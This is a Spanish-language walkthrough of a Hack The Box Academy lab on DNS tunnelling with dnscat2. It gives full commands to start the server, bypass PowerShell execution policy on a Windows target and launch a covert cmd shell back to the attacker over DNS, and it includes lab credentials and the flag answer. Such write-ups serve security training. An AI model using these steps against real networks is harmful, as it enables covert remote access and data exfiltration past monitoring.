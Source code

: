 Dnscat2 es una herramienta que tuneliza datos usando el protocolo DNS: en lugar de consultas legítimas, encapsula información dentro de registros TXT y establece un canal cifrado de mando y control entre un cliente y un servidor externo. 
Esto la hace muy sigilosa en entornos corporativos, porque el tráfico DNS suele permitirse y puede eludir inspecciones que se centran en HTTPS u otros protocolos. En el ejemplo de prueba, el servidor dnscat2 se ejecuta en la máquina atacante y el cliente en un equipo Windows de la red, permitiendo la exfiltración de datos mediante resoluciones hacia un DNS externo.

## Instalando Dnscat2
```shell-session
Polika4RM@htb[/htb]$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

## Inicializando Dnscat2
Inicializamos el servidor dns2cat con:

```shell-session
Polika4RM@htb[/htb/dnscat2/server]$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```

(el parámetro "host" tendrá que tener la dirección IP de la máquinta atacante, que es la misma que ejecuta el comando anterior).

Tras ejecutar el servidor, este nos proporcionará la clave secreta, que deberemos proporcionar a nuestro cliente dnscat2 en el host Windows para que pueda autenticar y cifrar los datos enviados a nuestro servidor dnscat2 externo. Podemos usar el cliente con el proyecto dnscat2 o usar dnscat2-powershell, un cliente basado en PowerShell compatible con dnscat2 que podemos ejecutar desde destinos Windows para establecer un túnel con nuestro servidor dnscat2. Podemos clonar el proyecto que contiene el archivo del cliente en nuestro host de ataque y luego transferirlo al destino.

```
New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```

Importante, de la salida anterior:   *./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21*

--- 

## Clonando y transfieriendo dnscat2-powershell a la 2a máquina
```shell-session
Polika4RM@htb[/htb]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

Una vez descarguemos y compartamos el archivo "dnscat2.ps1" a la máquina windows con la que queremos tunelizar el tráfico, ejecutaremos en su terminal powershell:
```powershell-session
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process -Force
Import-Module .\dnscat2.ps1
```

Tras importar dnscat2.ps1, podemos usarlo para establecer un túnel con el servidor que se ejecuta en nuestro host de ataque. Podemos enviar una sesión de shell CMD a nuestro servidor.
```powershell-session
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

Debemos usar el secreto precompartido (-PreSharedSecret) generado en el servidor para garantizar que nuestra sesión se establezca y se cifre. Si todos los pasos se completan correctamente, veremos una sesión establecida con nuestro servidor.


#### Listando opciones de dnscat2

Podemos usar dnscat2 para interactuar con sesiones y avanzar en un entorno objetivo en las interacciones. No cubriremos todas las posibilidades de dnscat2 en este módulo, pero se recomienda practicar con él e incluso encontrar formas creativas de usarlo en una interacción. Interactuemos con nuestra sesión establecida y la incorporemos en un shell.

```shell-session
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```

## Interactuando con la sesión establecida
``
``
```shell-session
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```

---
**Target: 10.129.133.101
RDP to  with user "htb-student" and password "HTB_@cademy_stdnt!"**
**1. Using the concepts taught in this section, connect to the target and establish a DNS Tunnel that provides a shell session. Submit the contents of C:\Users\htb-student\Documents\flag.txt as the answer.**

En mi máquina atacante, preparo el archivo dnscat2 con:
```shell-session
Polika4RM@htb[/htb]$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

Lo ejecuto desde la carpeta /dnscat2/server:
```
sudo ruby dnscat2.rb --dns host=10.10.15.95 ,port=53,domain=inlanefreight.local --no-cache
```


Y me devuelve tal secret: 
```
  ./dnscat --dns server=x.x.x.x,port=53 --secret=57f5c4615e94c4643822079b65083f94
```

Desde otra terminal de la máquina atacante, me descargo el cliente para la máquina windows:

```
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

Y lo comparto por http con el comando:
```
┌─[eu-academy-3]─[10.10.15.95]─[htb-ac-1876550@htb-kbrgiqortk]─[~/dnscat2-powershell]
└──╼ [★]$ python3 -m http.server 8080

```

Me conecto por RDP a la sesión windows con:
```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.133.101
```

Entro a firefox, en:
```
http://10.10.15.95:8080
```

Y me descargo el archivo *"dnscat2.ps1"*.

Me ubico con la poweshell en el directorio donde lo he descargado y ejecuto:
```
PS C:\Users\htb-student\Downloads> Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process -Force
>> Import-Module .\dnscat2.ps1
PS C:\Users\htb-student\Downloads>
```
y ejecuto desde la misma poweshell:

```
PS C:\Users\htb-student\Downloads> Start-Dnscat2 -DNSserver 10.10.15.95 -Domain inlanefreight.local -PreSharedSecret 57f5c4615e94c4643822079b65083f94 -Exec cmd 
```

Finalmente, navego a la carpeta de la flag: C:\Users\htb-student\Documents\flag.txt
Y encuentro la respuesta: AC@tinth3Tunnel



